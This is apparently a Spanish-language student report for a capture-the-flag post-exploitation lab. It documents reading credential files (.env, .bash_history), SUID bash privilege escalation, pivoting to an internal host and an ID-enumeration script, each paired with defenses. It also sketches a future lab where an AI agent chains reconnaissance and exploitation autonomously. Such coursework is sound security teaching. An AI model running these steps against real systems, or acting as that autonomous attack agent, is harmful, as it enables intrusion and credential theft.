

# Informe — Laboratorio 08 · Post-explotación y automatización

**Grupo:** 04 · **Integrantes:** *Facundo Anil - Antunez Jeremias - Olivero Uriel - Lelli Matias* · **Fecha:** 2026-10-16

---

## 0. Declaración de uso de IA

Se utilizó Claude (Anthropic) como asistente para la redacción del informe y el análisis conceptual. Los comandos de post-explotación fueron ejecutados manualmente por el grupo desde el host comprometido.

---

## A. Informe de post-explotación

| Fase | Qué hiciste | Comando/técnica | Evidencia | Defensa |
|------|------------|-----------------|-----------|---------|
| Recon host (R1) | Enumeración de identidad, sistema y filesystem | `id; whoami; hostname; uname -a` + `ls -la /opt/` + `cat /opt/phantom-deploy/DEPLOY_NOTES.txt` | Nota de deploy con `deploy_token` en `/opt/phantom-deploy/` → `FLAG{post_situational_awareness}` | No dejar archivos de configuración o notas en el filesystem de producción; usar secretos en variables de entorno gestionadas por vault |
| Loot (R2) | Extracción de credenciales de la app | `cat /var/www/.env` + `cat ~/.bash_history` | `APP_SECRET=FLAG{loot_credentials_found}` + `DB_PASS=Ph@ntom-DB-2024` en `/var/www/.env` | Nunca commitear `.env` al repo; usar herramientas de gestión de secretos (Vault, AWS Secrets Manager); rotar credenciales periódicamente |
| Privesc (R3) | Escalada de operador a root via bash SUID | `find / -perm -4000 -type f 2>/dev/null` → `/usr/local/bin/system-check` + `/usr/local/bin/system-check -p` + `cat /root/flag.txt` | Shell root obtenida; lectura de `/root/flag.txt` → `FLAG{privesc_suid_root}` | Auditar regularmente binarios SUID; eliminar SUID de binarios que no lo necesiten; montar filesystems con `nosuid` |
| Pivoting (R4) | Alcanzar host interno no visible desde Internet | `curl -s http://phantomcorp-db/` desde el host víctima | `{"pivot": "FLAG{pivot_internal_host}"}` — host solo alcanzable desde la LAN interna | Segmentación de red estricta; firewall stateful entre DMZ y red interna; monitorear conexiones salientes inusuales |
| Automatización (R5) | Script que enumera 250 legajos y extrae el flag | Script Python con `urllib.request` iterando `/empleado?id=1..250` | Flag encontrado en `id=187`: `{"legajo_oculto": "FLAG{automation_pays_off}"}` | Rate limiting; autenticación en endpoints internos; logs con alertas por enumeración |

---

## B. Script de automatización

Ver `src/recolector.py`. El script:
- Enumera los 250 legajos del host interno (`/empleado?id=N`)
- Detecta automáticamente cualquier respuesta que contenga `FLAG{`
- Muestra progreso cada 50 requests
- Acepta parámetros `--host`, `--start`, `--end` para ser reutilizable

Uso desde el host víctima:
```bash
python3 src/recolector.py
# o con parámetros:
python3 src/recolector.py --host http://phantomcorp-db --start 1 --end 250
```

---

## Preguntas de análisis

### P1 — ¿Por qué un binario SUID es peligroso? ¿Qué hace el flag `-p`?

El bit SUID (Set User ID) hace que un ejecutable corra con los permisos del **dueño del archivo** en lugar de los del usuario que lo invoca. Si un binario tiene SUID y su dueño es root, cualquier usuario que lo ejecute obtiene temporalmente privilegios de root durante esa ejecución.

El peligro está en que ciertos binarios permiten, por diseño o por fallo, ejecutar subcomandos o leer archivos arbitrarios. Si eso ocurre bajo el contexto de root (por el SUID), el usuario sin privilegios efectivamente ejecuta código como root.

El flag **`-p`** (en bash específicamente) indica "modo privilegiado": le dice a bash que **no abandone los privilegios efectivos de root** que heredó del SUID. Sin `-p`, bash detecta que el UID real y el efectivo no coinciden y los iguala hacia abajo (al UID real, sin privilegios). Con `-p`, mantiene el UID efectivo de root y se abre una shell con control total del sistema.

---

### P2 — Explicá el pivoting: ¿por qué el atacante no alcanzaba `phantomcorp-db` y vos sí desde la víctima?

La red está segmentada en al menos dos zonas:

- **DMZ (zona desmilitarizada):** donde vive el servidor web (`phantomcorp`), accesible desde Internet.
- **Red interna:** donde vive `phantomcorp-db`, con reglas de firewall que solo permiten conexiones desde la DMZ, no desde Internet directamente.

Desde la consola del atacante (en Internet), cualquier intento de conectarse a `phantomcorp-db` es bloqueado por el firewall: ese host no existe para el mundo exterior. Pero una vez comprometido el servidor web, ese host **está en la misma red interna que la DB**. El firewall permite el tráfico DMZ → interna (es la comunicación legítima de la app con su base de datos), así que desde el servidor comprometido el atacante puede alcanzar `phantomcorp-db` sin problemas.

El servidor comprometido actúa como **trampolín (pivot)**: el atacante lo usa como punto de salida hacia la red que antes era invisible.

---

### P3 — El `.bash_history` y el `.env` te dieron loot. ¿Qué práctica evita que esos secretos queden ahí?

**Para el `.env`:**
- Nunca commitear archivos `.env` al repositorio (agregar `.env` al `.gitignore`).
- Usar herramientas de gestión de secretos como HashiCorp Vault, AWS Secrets Manager, o variables de entorno inyectadas por el orquestador (Kubernetes Secrets, Docker Secrets).
- Rotar credenciales regularmente y revocar las viejas.

**Para el `.bash_history`:**
- Configurar `HISTFILE=/dev/null` o `HISTSIZE=0` en los usuarios de servicio para no guardar historial.
- En servidores de producción, nunca usar credenciales directamente en la línea de comandos (aparecen en el historial); usar archivos de configuración o variables de entorno.
- Auditar el historial periódicamente o implementar soluciones de PAM que logueen sesiones sin exponer credenciales.

El principio subyacente es que los secretos nunca deben almacenarse en texto plano en el filesystem accesible al proceso comprometido.

---

### P4 — Tu script del R5 automatizó 250 requests. ¿Qué decisiones tuviste que tomar vos que el script no toma solo?

El script automatiza la parte mecánica (hacer el request, detectar el patrón `FLAG{`), pero varias decisiones previas requirieron razonamiento humano:

1. **Saber que el endpoint era `/empleado?id=N`** — eso surgió de enumerar manualmente el host (R4). El script no descubre endpoints, solo los explota.
2. **Saber que eran exactamente 250 legajos** — lo dice el enunciado, pero en la realidad habría que inferirlo de errores HTTP (404 vs 200) o de respuestas vacías.
3. **Qué buscar en la respuesta** — el script busca `FLAG{`. En un escenario real, el "dato de interés" podría ser cualquier cosa (un campo de contraseña, un número de tarjeta) y el atacante tiene que decidir qué patrón reconoce como valioso.
4. **El rate y la evasión** — el script no implementa delays ni rotación de User-Agent. Un atacante real evalúa si hay rate limiting o IDS y decide si necesita ir más lento o evadir detección.
5. **Qué hacer con el resultado** — el script imprime el flag, pero un atacante decide si guardarlo, exfiltrarlo, usarlo para el próximo paso del ataque.

Estas decisiones son exactamente las que un **agente del Lab 09** tendría que tomar de forma autónoma, guiado por un objetivo de alto nivel ("conseguí acceso a los datos de empleados") en lugar de instrucciones paso a paso.

---

### P5 — Defensa: mitigación concreta para el privesc por SUID y para el pivoting

**Contra el privesc por SUID:**
- Auditar regularmente todos los binarios con SUID: `find / -perm -4000 -type f 2>/dev/null` y comparar contra una lista blanca de binarios estándar.
- Remover el bit SUID de todo binario que no lo necesite estrictamente: `chmod u-s /ruta/al/binario`.
- Usar capacidades de Linux (capabilities) en lugar de SUID donde sea posible: otorgan permisos más granulares sin dar root completo.
- Montar sistemas de archivos con la opción `nosuid` donde no haya razón para tener binarios SUID.

**Contra el pivoting:**
- Implementar segmentación de red real con firewall stateful entre la DMZ y la red interna: solo permitir los puertos estrictamente necesarios (el puerto de la DB, nada más).
- Aplicar el principio de mínimo privilegio a nivel de red: el servidor web solo puede hablar con la DB en el puerto de la DB, no hacer requests HTTP a otros hosts internos.
- Usar microsegmentación (por ejemplo con eBPF/Cilium en entornos contenedorizados) para limitar qué hosts pueden hablar con qué, incluso dentro de la misma red.
- Monitorear conexiones salientes inusuales desde el servidor web (un servidor web no debería iniciar conexiones a puertos arbitrarios de hosts internos).

---

## Captura de estado final

```
  ╭────────────────────────────────────────────────────────────╮
  │                     PROGRESO · LAB 08                      │
  ╰────────────────────────────────────────────────────────────╯

   ✓  R1     Reconocimiento del host comprometido
   ✓  R2     Loot de credenciales
   ✓  R3     Escalada de privilegios (SUID)
   ✓  R4     Pivoting al host interno
   ✓  R5     Automatizacion (fuerza bruta de legajos)

  ██████████████████████████████  5/5 (100%)

[ OK ] ¡Lab 08 COMPLETO!
```

---

## research.md — Bonus: pipeline recon → enum → explotación

Un pipeline que encadene los labs anteriores seguiría esta secuencia:

```
[Lab 05 - Recon]          nmap -sV target → puertos y servicios abiertos
        ↓
[Lab 06 - Enum]           dirb/gobuster → endpoints; whatweb → tecnologías
        ↓
[Lab 07 - Explotación]    SQLi / CMDi / LFI / IDOR → RCE, shell sin privilegios
        ↓
[Lab 08 - Post-exploit]   recon interno → loot → privesc → pivot → automatización
        ↓
[Lab 09 - Agente]         orquestación autónoma del pipeline completo
```

En cada etapa, la salida alimenta la siguiente: los puertos de nmap determinan qué enumerar; los endpoints enumerados determinan qué explotar; el tipo de RCE determina la técnica de post-explotación; el host interno descubierto en el pivot se convierte en el nuevo target del ciclo.

Lo que convierte esto en un agente (Lab 09) es que las decisiones de "qué hago con este output" las toma el modelo de lenguaje en lugar de un humano: el agente recibe el objetivo de alto nivel y encadena las herramientas de forma autónoma.
